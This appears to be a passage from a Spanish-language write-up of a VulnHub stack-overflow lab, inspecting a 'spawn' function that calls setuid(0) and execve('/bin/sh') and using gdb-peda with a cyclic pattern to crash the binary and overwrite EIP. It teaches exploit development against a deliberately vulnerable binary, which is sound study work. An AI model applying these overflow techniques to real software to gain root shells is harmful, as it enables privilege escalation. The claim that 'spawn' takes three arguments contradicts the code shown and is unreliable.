  Si seguimos inspeccionando las funciones podemos ver esta funcion `spawn` como podemos ver esta funcion se encarga de darnos una bash y le tenemos que pasar 3 argumentos

```c
void spawn(void)

{
  setuid(0);
  execve("/bin/sh",(char **)0x0,(char **)0x0);
  return;
}
```

Ahora vamos a utilizar gdb como debugger por que es un binario de linux yo lo uso con peda que facilita mas el trabajo en estos casos

Lo primero que vamos a hacer es pasarle el binario

```shell
❯ gdb -q levelTwo
Reading symbols from levelTwo...
(No debugging symbols found in levelTwo)
gdb-peda$ 
```

Como vimos en el script que esta definiendo 28 bytes en el buffer vamos a enviar 100 bytes de  caracteres para ver si se corrompe el binario


```shell
gdb-peda$ pattern_arg 100
Set 1 arguments to program
gdb-peda$
```

Una vez hecho esto ahora corremos el binario 

```shell
gdb-peda$ run
Starting program: /home/miguelrega7/VulnHub/StackOverflowForBeginners/content/levels/levelTwo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
Hello AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x6b ('k')
EBX: 0x413b4141 ('AA;A')
ECX: 0x0 
EDX: 0x1 
ESI: 0xffffd2d0 --> 0x2 
EDI: 0xf7fa7000 --> 0x1e4d6c 
EBP: 0x41412941 ('A)AA')
ESP: 0xffffd280 ("AA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EIP: 0x61414145 ('EAAa')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x61414145
[------------------------------------stack-------------------------------------]
0000| 0xffffd280 ("AA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0004| 0xffffd284 ("AFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0008| 0xffffd288 ("bAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0012| 0xffffd28c ("AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0016| 0xffffd290 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0020| 0xffffd294 ("2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0024| 0xffffd298 ("AAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0028| 0xffffd29c ("A3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
```
